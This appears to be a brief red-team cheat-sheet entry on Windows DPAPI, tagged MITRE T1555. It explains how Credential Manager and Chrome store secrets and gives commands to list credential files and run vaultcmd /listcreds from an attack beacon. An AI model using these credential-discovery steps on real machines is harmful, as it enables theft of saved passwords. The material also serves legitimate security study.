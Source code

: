 # DPAPI

The Data Protection API (DPAPI) is a component built into Windows that provides a means for encrypting and decrypting data "blobs". It uses crypto keys that are bound to either a specific user or computer account and allows Windows and external applications to protect or unprotect data.

DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and others like Google Chrome.

The credential manager blobs are stored in the user's `AppData` directory.
>ls C:\Users\$env:username\AppData\Local\Microsoft\Credentials

The native `vaultcmd` tool can also be used to list them.
>beacon> run vaultcmd /listcreds:"Windows Credentials" /all

If size not null some creds are saved
>ls C:\Users\$env:username\AppData\Local\Google\Chrome\User Data\Default

## Tools
########
########


```meta
ttp: T1555
requirements: admin
results: 
description: 
```